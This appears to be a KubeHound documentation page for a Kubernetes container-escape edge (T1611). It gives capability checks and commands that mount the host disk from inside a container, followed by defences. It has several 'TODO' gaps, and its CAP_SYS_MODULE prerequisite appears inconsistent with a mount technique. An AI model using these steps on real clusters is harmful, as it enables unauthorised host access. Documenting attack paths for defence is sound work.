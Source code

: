 # CE_PRIV_MOUNT

Mount the host disk and gain access to the host via arbitrary filesystem write

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Container](../vertices/CONTAINER.md) | [Node](../vertices/NODE.md) | [Escape to Host, T1611](https://attack.mitre.org/techniques/T1611/) |

## Details

TODO TODO

## Prerequisites

Execution within a container process with the `CAP_SYS_MODULE` capability enabled.

See the [example pod spec](../../test/setup/test-cluster/attacks/CE_PRIV_MOUNT.yaml).

## Checks

From within a running container, determine whether it is running with `CAP_SYS_MODULE`:

```bash
# Check the current process' capabilities
cat /proc/self/status | grep CapEff
# CapEff:	00000000a80425fb

# Decode the capabilities (on current box or offline) and check for CAP_SYS_MODULE
# NOTE: can install capsh via apt-get update && apt-get install libcap2-bin
capsh --decode=00000000a80425fb | grep cap_sys_module
```

## Exploitation

Find the disks visible to our container process:

```bash
apt update && apt install fdisk
fdisk -l 
# -> /dev/vda1
```
Mount the disks into the container:

```bash
mkdir -p /mnt/hostfs
mount /dev/vda1 /mnt/hostfs
ls -lah /mnt/hostfs/
```

Now TODO TODO

## Defences

+ Implement least privilege
 +Avoid running privileged pods.

### Monitoring

TODO TODO

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with `privileged` enabled.

### Least Privilege

Avoid running containers as the root user. Specify an unprivileged user account using the `securityContext`.

## Calculation

[EscapePrivMount](../../pkg/kubehound/graph/edge/escape_priv_mount.go)

## References:

+ [HackTricks Docker Breakout](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation)

